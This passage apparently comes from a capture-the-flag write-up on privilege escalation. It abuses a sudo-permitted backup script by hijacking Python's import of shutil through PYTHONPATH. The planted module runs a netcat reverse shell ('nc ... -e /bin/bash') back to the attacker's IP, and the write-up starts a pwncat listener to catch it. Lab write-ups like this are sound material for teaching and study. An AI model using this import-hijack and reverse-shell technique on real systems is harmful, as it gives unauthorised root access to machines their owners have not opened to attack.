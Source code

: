 It just launch `/opt/scripts/backup.py`, let's see that:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

It looks like we'll have to mess with the python import system.

I won't explain to much here, if you want to understand the attack please read
[SIGSEGv1 Quals 2018 - Write-ups - 100 - Fun avec python - App-Script](https://rawsec.ml/en/sigseg-2018-quals-write-ups/#100-Fun-avec-python-App-Script).

```
$ mkdir -p /tmp/cyfun/
$ cd /tmp/cyfun/
$ vim.tiny shutil.py
```

`shutil.py` (a reverse-shell because spawning a PTY is useless as the python script is sent to background)

```python
def make_archive(no,ra,j):
    import os
    os.system("nc 10.10.15.31 8888 -e /bin/bash")
```

Start a [pwncat][pwncat] listener: `pwncat -l 8888 -vv`.

Then let's call the script:

```
$ sudo PYTHONPATH=/tmp/cyfun/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```
